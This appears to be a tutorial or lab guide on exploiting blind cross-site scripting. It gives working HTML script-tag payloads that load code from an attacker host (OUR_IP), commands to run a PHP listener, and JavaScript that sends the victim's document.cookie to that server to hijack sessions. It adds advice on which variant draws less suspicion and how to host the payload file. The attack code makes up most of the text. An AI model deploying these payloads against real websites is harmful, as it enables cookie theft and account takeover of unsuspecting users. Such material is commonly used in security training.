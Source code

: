 To detect Blind XSS vulnerabilities, inject a JavaScript payload that sends an HTTP request to the attacker's server. If the payload executes, the attacker receives a request, confirming the vulnerability.

### Loading a Remote Script

Use the following payload to load a remote script:

```html
<script src="http://OUR_IP/username"></script>
```

This payload allows identifying which input field is vulnerable based on the request received. Test different fields by replacing `username` with the field name. Example payloads:

```html
<script src=http://OUR_IP/fullname></script>
<script src=http://OUR_IP/username></script>
```

### Setting Up the Listener

Start a listener on the attacker's server to capture requests:

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
```

Test various fields with different payloads. Once a request is received, note the working payload and the vulnerable field.

## Performing Session Hijacking

After identifying the vulnerable input field, use a JavaScript payload to steal cookies and send them to the attacker's server. Example payloads:

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

The second payload is less suspicious as it adds an image instead of navigating to another page.

### Hosting the Payload

Save the payload in `script.js` on the attacker's server:

```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Change the XSS payload to use `script.js`:

```html
<script src=http://OUR_IP/script.js></script>
```
